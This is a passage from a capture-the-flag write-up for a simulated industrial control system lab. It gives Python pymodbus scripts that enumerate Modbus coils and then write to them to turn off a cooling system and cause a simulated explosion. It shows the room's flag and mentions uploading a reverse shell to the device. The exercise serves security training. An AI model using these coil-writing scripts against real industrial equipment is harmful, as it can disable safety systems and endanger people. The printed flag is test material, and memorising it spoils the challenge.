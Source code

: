 result:<br/>
go check the web interface at `http://<IP>/` and you will see that the pressure value is dangerously high, and the cooling system is activated.<br/>
then we need to find the cooling system coil  by reading the coils:<br/>

```python
from pymodbus.client import ModbusTcpClient

client = ModbusTcpClient("<IP>", port=502)
client.connect()

for i in range(1000):
    result = client.read_coils(i, count=10)
    if result.isError():
        print("Failed reading coils")
    else:
        if True in result.bits:
            print(f"results [{i}]: {result.bits}")
            print(f"Coil {i} is ON")
            break
        else:
            print(f"results [{i}]: {result.bits}")

    print("-" * 40)
    # result = client.
client.close()
```


now let's turn off the cooling system by writing to the coil, this will trigger the explosion.<br/>

```python
from pymodbus.client import ModbusTcpClient

client = ModbusTcpClient("<IP>", port=502)
client.connect()

for i in range(10, 17):
    client.write_coil(i, True)

res = client.read_coils(15, count=1)  # Read coil at address 0
print("[+] Cooling system turned off: ", res)
client.close()
```

result:<br/>
<img alt="write-coils-result"src="/kaboom-write-up-thm-industrial/write-coils-result.png" />

booom you got the flag at `http://<IP>/` <br/>
<img alt="flag-part1" src="/kaboom-write-up-thm-industrial/flag-part1.png" />
> 1st flag: <code>THM{BOOM_BOOM_KABOOM}</code><br/>

# Installing the Implant
chech the platform at `http://<IP>:8080/` and you will see that the system is down, and the cooling system is not working anymore.<br/>
we used a tool to upload the reverse shell directly to the hardware not the program section.<br/>
